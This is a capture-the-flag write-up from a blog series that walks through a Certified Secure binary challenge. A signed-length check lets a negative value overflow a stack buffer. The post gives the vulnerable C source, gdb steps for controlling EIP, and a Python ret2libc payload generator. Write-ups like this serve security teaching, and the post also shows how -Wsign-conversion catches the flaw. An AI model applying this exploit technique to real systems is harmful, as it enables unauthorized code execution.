 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 2"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-purple.png)


In this post we'll continue with the second level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**.
Another buffer overflow, similar mitigatiopn techniques as we've seen in the previous level (non-executable stack), 
but this time we have another flaw, a little more subtle: _integer signedness error_.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})
* [Binary Master: Ensign - Level 5]({{ site.baseurl }}{% post_url 2016-02-09-binary-master-ensign-5 %})
* [Binary Master: Lieutenant - Level 1]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %})

## 0 - Discovery
Let's connect to the server and check the binary we're dealing with:
```
$ ssh level2@hacking.certifiedsecure.com -p 8267
level2@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

0 packages can be updated.
0 updates are security updates.

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                    __  ___          __              
  / _ )(_)___ ___ _______ __/  |/  /___ ____ / /____ ______ __
 / _  / // _ | _ `/ __/ // / /|_/ // _ `(_-</ __/ -_) __/ // /
/____/_//_//_|_,_/_/  \_, /_/  /_/ \_,_/___/\__/\__/_/  \_, / 
                     /___/                             /___/  

             ___           __                   __ 
            / (_)___ __ __/ /____ ___ ___ ____ / /_
           / / // -_) // / __/ -_) _ | _ `/ _ | __/
          /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/ 
                                                   

```

Let's see what mitigation techniques we have now using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   level2
```

There is no stack canary and the stack is **not** executable. As we've seen in the previous level, [ASLR is disabled](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) system-wise for this set of challenges.

## 1 - Vulnerability

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void head(int len, char *filename) {
	char buf[256];
	
	if (len > 255) {                         [1]
		printf("You are insane!\n");
		return;
	}

	int fp = open(filename, O_RDONLY);

	if (fp == 0) {                           [2]
		printf("Computer says no\n");
		return;
	}

	buf[read(fp, buf, len)] = 0;	         [3]
	close(fp);

	printf("%s\n", buf);
}

int main(int argc, char **argv) {
	if (argc < 2) {
		printf("Usage: %s <size>\n", argv[0]);
		return -1;
	}

	head(atoi(argv[1]), argv[2]);
	
	return 0;
}
```

First let's understand what is the purpose of this program and how it works. In this case it's pretty straight forward:
* Its first parameter represents a number of lines to be read from the filename specified in the second command line parameter.
* A first sanity check is implemented at **[1]**: if the length is greater than 255 bytes, the program will terminate.
* A second check at **[2]** after the _open_ call probably intends to terminate the program if file cannot be opened successfully.
* Finally,the _read_ call at **[3]** copies maximum _len_ characters into the buffer _buf_, whose size is 256 bytes, thus avoiding the overflow.

Now let's see if we can break it:
* Let's notice that the check at **[2]** is actually not effective because, according to its [man page](http://man7.org/linux/man-pages/man2/open.2.html), _open_ will return -1 in case of error, not 0. This means that the program will have unpredictable output for non-existent files.
* The check at **[1]** poses, however, a more serious risk: as we can see from the definition of the function, _len_ is actually a signed integer. But [read](https://linux.die.net/man/3/read) expects instead a **size_t** parameter. This means that passing any negative value will successfulyl bypass the check, overflow the buffer and everything beyond, including the return address from function _head_.

Although one might expect that a GCC compiler error would be generated in situations like this, it is not actually the case. Moreover, even eanbling _all warnings_ and _extra warnings_ doesn't produce any relevant message. These flags are actually misleading, since it is not possible (nor desirable!) to show _ALL_ compilation errors supported by GCC. See [here](https://stackoverflow.com/questions/11714827/how-to-turn-on-literally-all-of-gccs-warnings) why. That's why I was saying it is slighly more difficult to spot this class of vulnerabilities in practice. 

```bash
$ gcc -m32 -fstack-protector level2.c -o level2       
$ gcc -Wall -Wextra -m32 -fstack-protector level2.c -o level2
$ 
```

The only way to get a warning for this kind of behaviour is to manually enable implicit sign conversions erros, using the **-Wsign-conversion** flag.

```
-Wsign-conversion
    Warn for implicit conversions that may change the sign of an integer value, like assigning a signed integer expression to an unsigned integer variable. An explicit cast silences the warning. In C, this option is enabled also by -Wconversion. 
```

```bash
$ gcc -Wsign-conversion -m32 -fstack-protector level2.c -o level2
level2.c: In function ‘head’:
level2.c:24:20: warning: conversion to ‘size_t {aka unsigned int}’ from ‘int’ may change the sign of the result [-Wsign-conversion]
  buf[read(fp, buf, len)] = 0; 
                    ^
```		    

## 2 - Exploit 

Given the previous finding, the exploitation is simple and very similar with [level 1](https://livz.github.io/2016/02/16/binary-master-lieutenant-1.html). First we'll see what we need to control the EIP and then we'll introduce a payload as well.

### Controlling the execution flow
Although we know that **buf** is 256 bytes in size, we need to see the stack layout of the function **head** in order to understand exactly how many bytes we need to overwrite to get to the saved return address on the stack.

![head stack](/assets/images/bm7-0.png)

So we need 256 + 12 + 4 bytes of padding in the buffer before we'll reach the saved return address. Let's see first if we can reliably control the return address:

```bash
$ python -c 'print "A"*272 + "BBBB"' > input
$ gdb -q ./level2

gdb-peda$ run -1 input
```
We see below that the execution crashed at address **0x42424242** ("BBBB"). That's good. We can move on.

![Control EIP](/assets/images/bm7-1.png)

### Add ret2libc payload
In a very similar way with the previous level, we'll return from _head_ function to the _system_ function, and place its argument in an environment variable. All the unchanged details omitted for space. The format of our payload is:

```
| PADDING (272 bytes) | addr. of system() | addr of exit() | addr of arguments |
```

The python script below generates the payload according to this scheme:

```python
import struct                                                                                                      
from subprocess import call

system = 0xf7e65e70     # Address of system() function
exit = 0xf7e58f50       # Address of exit() function
egg = 0xffffd928-6      # Address of environment variable (/home/level2/victory)

payload = "A" * (256 + 12 + 4) + struct.pack("<I", system) + struct.pack("<I", exit) + struct.pack("<I", egg)

open("/tmp/input", "wb").write(payload)
```

## 3 - Profit

```
$ python /tmp/gen.py > /tmp/input
$ /levels/level2 -1 /tmp/input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp^�P��"��
   ___  _                      __  ___         __  
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   

Subject: Victory!

Congrats, you have solved level2. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level2 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level3. If you want, you can log in
as level3 with password     [REDACTED]
```

That's it for now. It the [next level]({{ site.baseurl }}{% post_url 2016-03-02-binary-master-lieutenant-3 %}) we'll look at a new calss of issues - _command injection vulnerabilities_.
